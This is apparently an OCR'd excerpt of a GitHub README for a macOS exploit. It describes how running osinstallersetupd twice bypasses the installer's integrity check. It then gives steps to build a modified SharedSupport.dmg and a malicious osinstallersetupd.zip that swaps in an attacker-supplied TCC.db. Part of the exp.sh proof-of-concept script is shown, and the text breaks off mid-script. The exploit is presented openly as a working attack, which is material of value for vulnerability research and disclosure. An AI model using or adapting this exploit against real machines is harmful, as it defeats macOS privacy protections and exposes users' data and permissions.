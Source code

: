 

**Actually I spent some time on reverse engineering to figure out how Apple implemented the integrity verification.**  

But I accidentally found we only need to execute `osinstallersetupd` twice, you will find the `/tmp/UpdateBrain-` created ! The verification is bypassed.



## 2. Exploit

### Step 1: Prepare the malicious file on your own macOS

You could do anything because this is your macOS, so you could gain root access or disable SIP as you want.

- If the victim macOS is 15.0,  download the 15.0 InstallAssistant.pkg
- If the victim macOS is 14.5,  download the 14.5 InstallAssistant.pkg
- ...etc

Install it, you will see `/Applications/Install macOS Sequoia.app`, then execute the PoC `sudo ./generate-your-malicious-app/exp.sh` with root access. You will get a modified `SharedSupport.dmg` and  `malicious-osinstallersetupd.zip`.

```shell
generate-your-malicious-app:
- exp.sh
- generateTCCdb.sh
```

**./generate-your-malicious-app/exp.sh:**

```shell
#!/bin/sh

# Check if the script is run as root
if [ "$EUID" -ne 0 ]; then
  echo "Please run as root: cd ./generate-your-malicious-app; sudo ./exp.sh"
  exit 1
fi

echo "Running as root."
echo "Make sure you have installed the specific InstallAssistant.pkg. macOS15.0 -> InstallAssistant_15.0.pkg"
echo "Demo, download here: https://swcdn.apple.com/content/downloads/11/43/062-78429-A_DAI7Y9IP98/qxbabjzemiel7guag7q09xxe0631iie45p/InstallAssistant.pkg"
echo "========================================================================"
echo "Place your malicious TCC.db in this folder, I will use it to replace the original TCC.db"
echo "========================================================================"
echo "Are you ready? Sleep 5 seconds."
sleep 5


echo "Go"
workpath=$(pwd)

echo "Clean"
rm -rf target
rm -rf /Applications/testfolder
rm -rf malicious-osinstallersetupd.zip

mkdir -p /Applications/testfolder/target
cp -R /Applications/Install\ macOS\ Sequoia.app/Contents/Frameworks /Applications/testfolder/target/
cp -R /Applications/Install\ macOS\ Sequoia.app/Contents/PlugIns /Applications/testfolder/target/

mkdir /Applications/testfolder/mountme
```
